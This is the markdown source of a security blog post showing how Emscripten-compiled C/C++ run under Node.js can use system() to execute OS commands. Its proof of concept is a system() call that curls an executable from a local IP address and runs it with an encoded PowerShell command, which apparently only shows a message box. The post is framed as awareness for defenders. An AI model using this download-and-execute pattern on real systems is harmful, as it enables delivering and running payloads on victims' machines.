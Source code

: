 ```yaml
---
layout: post
title: WEBASSEMBLY – EXECUTING MALICIOUS CODE USING SYSTEM()
excerpt_separator: <!--more-->
---
```


Adversaries are getting more innovative, less predictable and underscoring society’s need to stay one step ahead of them. In this post I am going to share a technique that came across my mind when I was learning about WebAssembly.
<!--more-->

> Derived from MDN Web docs: “WebAssembly” is a new type of code that can be run in modern web browsers — it is a low-level assembly-like language with a compact binary format that runs with near-native performance and provides languages such as C/C++ and Rust with a compilation target so that they can run on the web. It is also designed to run alongside JavaScript, allowing both to work together.

Reference: [WebAssembly](https://developer.mozilla.org/en-US/docs/WebAssembly)

Before we begin, lets look at a simple C program and then compile it using Emscripten SDK so that, it can run on a web browser.

To do the same get the [Emscripten SDK](https://emscripten.org/docs/getting_started/downloads.html) and take a copy of “woot.c” as below :

```
#include <stdio.h>
int main(int argc, char ** argv) {
    printf("Woot woot!\n");
}
```

Now run the following command to get the “wasm” output:

```
emcc woot.c -s WASM=1 -o woot.html
```

Once compiled we should have two files:

* [hello.wasm](https://github.com/kartikdurg/WASSUP-WASM/blob/master/Examples/HelloWorld/woot.txt): The WASM binary file that contains low-level memory models of C language.
* [hello.js](https://github.com/kartikdurg/WASSUP-WASM/blob/master/Examples/HelloWorld/woot.js): A JavaScript file that can translate between the native C functions, and JavaScript/wasm.

As seen below, a HTML file with a link to “hello.js” can be used to load, compile, and instantiate the wasm code. Once it is opened in a browser, the output can be observed in the browsers console as seen in the below image:

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>WASM Demo</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>
    <h1>WASM Demo</h1>
    <script src="woot.js"></script>
</body>
</html>
```

![](/media/web-output.jpg)

Emscripten SDK provides a method called emscripten_run_script() to run the specified JavaScript from C/C++ using the browsers “eval()” function. Hence, this would be an another area for security professionals to explore and find a way to abuse it.

Refer: [Interacting with code call javascript from native](https://emscripten.org/docs/porting/connecting_cpp_and_javascript/Interacting-with-code.html#interacting-with-code-call-javascript-from-native)

It also supports number of built-in standard libraries like libc, libc++ and SDL. Libraries that are not included in this SDK must be converted to bitcode and then compile that library and main program’s bitcode together to JavaScript. For this post, I will be using System() function because it is already present in a standard library that comes with EMSDK.

Refer: [https://emscripten.org/docs/compiling/Building-Projects.html#building-projects](https://emscripten.org/docs/compiling/Building-Projects.html#building-projects)

Also, the commands executed by "System()" function are present in underlying OS, but not in the browser. Hence, I am making use of Node.JS binary to execute the JavaScript generated by EMSDK. The below code downloads no-powershell binary and executes powershell script using the same:

```
#include <iostream>
#include <stdlib.h>
using namespace std;
 
int main(int argc, const char *argv[]) {
system("curl http://192.168.0.107/nps.exe --output C:\\Users\\Public\\nps.exe && C:\\Users\\Public\\nps.exe -encodedcommand QQBkAGQALQBUAHkAcABlACAALQBBAHMAcwBlAG0AYgBsAHkATgBhAG0AZQAgAFAAcgBlAHMAZQBuAHQAYQB0AGkAbwBuAEMAbwByAGUALABQAHIAZQBzAGUAbgB0AGEAdABpAG8AbgBGAHIAYQBtAGUAdwBvAHIAawA7ACQAbQBzAGcAQgBvAGQAeQAgAD0AIAAiAFcAMAAwAHQAIABXADAAMAB0ACEAIQAiADsAWwBTAHkAcwB0AGUAbQAuAFcAaQBuAGQAbwB3AHMALgBNAGUAcwBzAGEAZwBlAEIAbwB4AF0AOgA6AFMAaABvAHcAKAAkAG0AcwBnAEIAbwBkAHkAKQA=");
return 0;
}
```

### COMPILING AND EXECUTING THE FINAL SHELLCODE:

```
emcc curl.cc -s WASM=1 -o wasm.js
```

Execution using Node.JS:

![](/media/no-pwsh.gif)


The use of Node.js is an unusual choice for malware authors and it’s usage is increasing when it comes to writing a malware. Check out the usage of Node.Js in a recent attack from the link below:

Refer: [https://blog.trendmicro.com/trendlabs-security-intelligence/qnodeservice-node-js-trojan-spread-via-covid-19-lure/](https://blog.trendmicro.com/trendlabs-security-intelligence/qnodeservice-node-js-trojan-spread-via-covid-19-lure/)

The difference between JavaScript used in above attack and the one generated by Emscripten SDK is that, it contains code that implements the functionality of each respective library used by the C/C++ code and also the logic for calling the WebAssembly JavaScript APIs to fetch, load and run the .wasm file. As this feature provides a way to run code written in multiple languages on the web, it is very much likely to become a security threat in the near future. Hence, we as security professionals must identify and detect these threats before they are used in cyber attacks.

Also, check out this small application that can be used to download and execute WASM binary using Node.JS:

[https://github.com/kartikdurg/WASSUP-WASM](https://github.com/kartikdurg/WASSUP-WASM)

Thank you for reading 🙂

– Kartik Durg
